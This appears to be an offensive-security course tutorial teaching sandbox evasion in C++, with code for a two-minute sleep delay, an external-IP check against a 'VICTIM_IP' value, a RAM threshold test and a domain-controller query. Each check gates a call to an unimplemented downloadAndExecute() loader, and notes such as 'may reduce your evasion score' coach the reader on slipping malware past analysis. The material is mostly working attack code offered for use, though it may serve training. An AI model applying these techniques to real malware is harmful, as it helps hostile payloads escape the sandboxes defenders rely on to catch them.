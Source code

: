 # Sandbox Evasion Techniques

This document explores various sandbox evasion techniques, demonstrating how to implement and test them in C++. Each section introduces a new evasion method, explains the code, and discusses the results of testing in sandbox environments.

---

## 1. Sleep-Based Evasion

### Concept

A simple yet effective technique is to delay execution using a sleep statement. Many sandboxes have short analysis windows, so sleeping can help evade detection.

### Example

```cpp
int main() {
    sleep(120000); // Sleep for 120,000 ms (2 minutes)
    downloadAndExecute();
    return 0;
}
```

### Testing

- **With Sleep:** No activity is observed during the sleep period.
- **Without Sleep:** Immediate HTTP request is detected.

> **Note:** While effective, this method can be bypassed by advanced sandboxes. Consider using more complex time-wasting operations for better results.

---

## 2. Geolocation Filtering

### Concept

Check the system's external IP address and only proceed if it matches a specific value. This helps avoid execution in sandboxes with known IP ranges.

### Example

```cpp
BOOL checkIP() {
    const char* websiteURL = "https://ifconfig.me/ip";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) break;
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    } else {
        return FALSE;
    }
}
```

**Integration:**

```cpp
int main() {
    if (checkIP() == TRUE) {
        downloadAndExecute();
    } else {
        cout << "HTTP/418 - I'm a Teapot!";
    }
    return 0;
}
```

### Testing

- **With IP Filter:** Execution only proceeds if the IP matches.
- **Without IP Filter:** No restriction; code always executes.

> **Note:** This method is commonly flagged by sandboxes and may reduce your evasion score.

---

## 3. System Memory Check

### Concept

Many sandboxes allocate limited RAM (e.g., 4GB). By checking for a higher memory threshold, you can avoid execution in such environments.

### Example

```cpp
BOOL memoryCheck() {
    MEMORYSTATUSEX statex;
    statex.dwLength = sizeof(statex);
    GlobalMemoryStatusEx(&statex);
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {
        return TRUE;
    } else {
        return FALSE;
    }
}
```

**Integration:**

```cpp
int main() {
    if (memoryCheck() == TRUE) {
        downloadAndExecute();
    } else {
        exit(0);
    }
    return 0;
}
```

### Testing

- **With Memory Check:** Exits if less than 5GB RAM.
- **Without Memory Check:** Always executes.

---

## 4. Querying Network Information

### Concept

Check for the presence of a Domain Controller, which is unlikely in sandbox environments.

### Example

```cpp
BOOL isDomainController() {
    LPCWSTR dcName;
    NetGetDCName(NULL, NULL, (LPBYTE*)&dcName);
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    if (dcNewName.find("\\\\") != string::npos) {
        return TRUE;
    } else {
        return FALSE;
    }
}
```

**Integration:**

```cpp
int main() {
    if (isDomainController() == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
    return 0;
}
```

### Testing

- **With Domain Controller Check:** Only executes if a DC is found.
- **Without Check:** Always executes.

---

## Adding External Dependencies in Visual Studio

For the domain controller check, add the `Netapi32.lib` library:

1. Right-click your project in Solution Explorer.
2. Go to **Properties** > **Linker** > **Input**.
3. Add `Netapi32.lib` to the list of libraries.
4. Click **Apply** and **OK**.

---

## Conclusion

You have now seen several sandbox evasion techniques, including sleep delays, geolocation filtering, system memory checks, and network information queries. Each method has its strengths and weaknesses; choose the most appropriate for your scenario.

In the next task, you will combine these techniques to evade a custom sandbox environment.

